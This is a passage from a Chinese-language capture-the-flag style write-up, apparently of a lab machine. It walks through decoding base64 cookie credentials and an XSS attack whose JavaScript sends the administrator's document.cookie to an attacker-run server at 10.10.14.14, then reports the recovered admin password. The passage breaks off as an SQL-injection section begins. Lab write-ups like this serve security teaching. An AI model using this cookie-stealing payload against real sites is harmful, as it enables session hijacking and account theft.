 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)其中`/user`就是登陆后的用户界面，而`/admin`显示无权限进入，可能是登陆后的管理员界面![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### Cookie信息

登陆后 Cookie 信息包含`id`、`username`、`password`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)其中`username`和`password`的值由 base64 编码得到，通过以下命令可直接还原

```
echo "bWFj" | base64 -d  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截屏2022-02-08 下午3.44.56

0x02 上线[cortin]
---------------

### XSS获取管理员Cookie

由于转账后管理员会对我们的转账记录进行查看，因此可以在评论中插入 JavaScript 代码来获取去管理员 Cookie 信息，再通过 base64 解码就可以成功登陆管理员账号。首先我们在本地搭建一个 web 环境用于存放js代码

```
function get_cookie(){  
    var img = document.createElement("img");  
    img.src = "http://10.10.14.14/xss?=" + document.cookie;  
    document.body.appendChild(img);  
}  
get_cookie();  

```

同时开启 web 服务

```
python -m SimpleHTTPServer 80  

```

在评论中插入如下 XSS paylaod 进行提交

```
<script src="http://10.10.14.14/xss.js"></script>  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)过几分钟后可以发现两个请求：一是请求js文件，二是返回的 Cookie 信息![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)通过 base64 解码后成功获取管理员账号密码：admin/Hopelessromantic

### SQL注入

通过以上账号密码登录管理员，在管理界面中存在交易列表、用户搜索以及后门检查这几个功能模块![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### 交易列表

